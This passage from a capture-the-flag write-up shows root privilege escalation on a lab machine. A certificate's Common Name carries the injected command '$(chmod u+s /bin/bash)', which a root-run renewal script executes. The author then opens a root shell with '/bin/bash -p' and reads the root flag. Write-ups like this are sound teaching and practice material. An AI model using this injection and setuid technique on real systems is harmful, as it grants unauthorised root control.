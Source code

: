 There is a glaring vulnerability here. The commonName is called with a bash command to generate a filename. If I make the commonName something like <code>$(chmod u+s /bin/bash)</code> I can inject a shell. Now the second part to this is I left pspy running and found there was a <code>UID=0     PID=1448   | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt</code> running at random intervals.

```bash
bill@broscience:~$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
Generating a RSA private key
......................................................................................................................................................................++++
.......................................................................................................................................................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
```

Now I sit back and wait a bit before trying to get a root shell off /bin/bash

```bash
bill@broscience:~/Certs$ /bin/bash -p
bash-5.1# cat /root/root.txt
bc7e3d5f2daf5-------------------
```

